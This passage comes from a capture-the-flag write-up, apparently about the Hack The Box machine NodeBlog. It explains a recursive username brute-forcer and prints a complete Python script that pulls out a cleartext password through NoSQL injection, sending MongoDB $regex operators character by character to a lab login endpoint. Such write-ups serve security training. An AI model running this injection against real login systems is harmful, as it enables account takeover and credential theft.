     
    brute_username('')
    print('\r', end='')
    

It is a recursive function that tries the current string plus one new
character and uses regex search to see if there’s a user that starts with that
pattern. If there is, it checks if that new string is a valid user, and if so,
prints it. It then continues checking for next characters either way. That’s
important to catch if there’s both admin and administrator, for example.

It turns out there’s only one user, admin:

![](https://0xdfimages.gitlab.io/img/nodeblog-brute-users.gif)

I’ll write another quick script that will take a username and get the
password. I originally skipped past this assuming that the password would be a
hash I didn’t need yet. Only later did I find that it was a cleartext password
that I needed to solve the box.

This time I know there’s only one valid password for the given user, so I can
use a simple `while` loop until I find it:

    
    
    #!/usr/bin/env python3
    
    import requests
    import string
    import sys
    
    
    user = sys.argv[1]
    password = ''
    found = False
    
    while not found:
        for c in string.ascii_letters + string.digits + '!@#$%^&,':
            print(f'\r{password}{c:<50}', end='')
            payload = { 'user': user,
                        'password':
                           { '$regex' : f'^{password}{c}' },
                      }
            resp = requests.post('http://10.10.11.139:5000/login', json=payload)
    
            if not 'Invalid Password' in resp.text:
                payload = {'user': user, 'password': password + c}
                resp = requests.post('http://10.10.11.139:5000/login', json=payload)
                password += c
                if not 'Invalid Password' in resp.text:
                    print(f'\r{password}')
                    found = True
                break
    

It finds the password pretty quickly:

![](https://0xdfimages.gitlab.io/img/nodeblog-brute-password.gif)

[](/2022/01/10/htb-nodeblog.html)


